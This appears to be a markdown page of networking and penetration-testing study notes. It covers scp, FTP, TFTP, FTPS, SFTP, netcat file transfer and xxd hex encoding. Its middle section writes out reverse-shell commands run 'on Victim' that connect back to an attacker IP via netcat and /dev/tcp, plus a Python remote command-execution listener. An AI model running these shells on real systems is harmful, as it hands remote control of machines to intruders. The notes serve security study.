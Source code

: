 # mknod



# File Transfer methods 
    scp
        uses port 22 for transport 
        uses asymmetric and symmetric encryption
        non interactive 
    OPTIONS
     . - present working directory 
    -v - verbose method
    -P - alternate port
    -r - recursively copies the whole directory
    -3 - three way copy


        
    FTP
        Uses 2 separate tcp connections 
        command and control (21), data transfer (20)
        anonymous login
        insecure
        passive and active connections
    TFTP
        UDP based
        small and simple comms
        insecure, No encryption or encoding
        No directory services
    FTPS
        secure
        uses ports 20/21 regular
        uses ports 989/990 for encryption
        interactive terminal access
    
    SFTP
        transport 22
        uses symetric and asymetric encryption

# Active    
![FTP](https://github.com/user-attachments/assets/ada2309a-4eca-4023-9f60-a927a956efad)
# Passive 
![FTP](https://github.com/user-attachments/assets/9dfee368-0537-41cb-adc4-d65fa361457e)


    Netcat - swiss army hoe
        can be used for tcp/udp inbound and outbound connections

        
<h5> Listener (receive file): <h5>
    
     nc -lvp 9001 > newfile.txt

<h5>Client (sends file): </h5>  

     nc 172.16.82.106 9001 < file.txt

# Reverse Shell using NC

 First listen for the shell on your device.

        $ nc -lvp 9999

On Victim using -c :

    $ nc -c /bin/bash 10.10.0.40 9999

On Victim using -e :

    $ nc -e /bin/bash 10.10.0.40 9999

# Reverse shell using /dev/tcp

First listen for the shell on your device.

    $ nc -lvp 9999

On Victim:

    $ /bin/bash -i > /dev/tcp/10.10.0.40/9999 0<&1 2>&1

# Reverse shell using python 3
    
    #!/usr/bin/python3
    import socket
    import subprocess
    PORT = 1234        # Choose an unused port
    print ("Waiting for Remote connections on port:", PORT, "\n")
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.bind(('', PORT))
    server.listen()
    while True:
        conn, addr = server.accept()
        with conn:
            print('Connected by', addr)
            while True:
                data = conn.recv(1024).decode()
                if not data:
                    break
                proc = subprocess.Popen(data.strip(), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                output, err = proc.communicate()
                response = output.decode() + err.decode()
                conn.sendall(response.encode())
    server.close()
    

# xxd example

echo a string of text and use xxd to convert it to a plain hex dump with the -p switch\

    $ echo "Hex encoding test" | xxd -p 48657820656e636f64696e6720746573740a

echo hex string and use xxd to restore the data to its original format

    $ echo "48657820656e636f64696e6720746573740a" | xxd -r -p Hex encoding test























    
